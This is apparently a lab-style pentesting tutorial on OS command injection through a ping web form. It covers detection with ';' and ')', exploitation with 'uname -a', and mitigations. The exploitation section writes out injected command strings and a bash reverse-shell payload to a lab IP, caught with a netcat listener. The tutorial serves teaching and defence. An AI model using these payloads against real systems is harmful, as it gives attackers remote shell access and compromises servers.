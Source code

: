 ```yaml
---
title: Command Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Injection]
tags: [webapp, pentesting, Owasp, cmdi, os, command injection]     # TAG names should always be lowercase
---
```


# Command Injection

***Command Injection*** is a cyber attack that involves executing arbitrary commands on a host operating system (OS). Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application.

# Detecting Command Injection

In the below image, we can see that the web interface takes in ip address, pings the ip address and then returns the output to the user. By examining the outputs, we will discover that the backend is using `ping` command to ping a given ip address. 

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab2.png)

We can attempt to predict the os command that is executed, which may be `ping -c 3 [ip]`. By supplying 127.0.0.1, the command will be something like this `ping -c 3 127.0.0.1`, we can get command execution If the backend passess the supplied input to a system shell without sanitizing it. 

## with `;`

We can determine whether or not our supplied input is directly executed in a system shell using `;`. By suppliying `127.0.0.1;`, the command will be `ping -c 3 127.0.0.1;`, we will get thesame output if our supplied input is executed directly in a system shell,this is because, `;` will not break the command as it is also used to end linux command or to execute nultiple command in one line. 

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabenum1.png)

The above image shows the output of the executed command, this means our supplied input is directly executed in a system shell and it did'nt break the command as we predicted.

## with `)`

We can determine whether or not our supplied input is directly executed in a system shell using `)`. By suppliying `127.0.0.1)`, the command will be `ping -c 3 127.0.0.1)`, we will not get any output if our supplied input is executed directly in a system shell,this is because, `)` will break the linux command completely.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabenum3.png)

The above image didn't show the output of the executed command, this means our supplied input is directly executed in a system shell and it broke the command as we predicted.

# Exploitation

## Executing `uname -a`

Given that our supplied input is directly supplied to a system shell without sanitization, we can execute our own command by taking advantage of `;`, as it is used to execute multiple system command. By suppliying `127.0.0.1;uname -a;`, our command will be something like this `ping -c 3 127.0.0.1;uname -a;`. This will make the backend server to execute two different commands, one is `ping -c 3 127.0.0.1` and the other is `uname -a`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab4.png)

From the above image we get the output of the `uname -a` command, which is highlighted in the image.

## Getting Reverse Shell

To get a reverse shell, we used the reverse shell payload below and setup our listener using netcat i.e `nc -nlvp [port]`.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1'
```
Then supplied the following `127.0.0.1;bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1;` to the vulnerable endpoint.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab5.png)

*getting reverse shell*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabravkali.png)

# Mitigations

- Avoid calling OS commands directly, Instead Use Built-in library functions.
- Escape values added to OS commands specific to each OS
- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.

# References

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
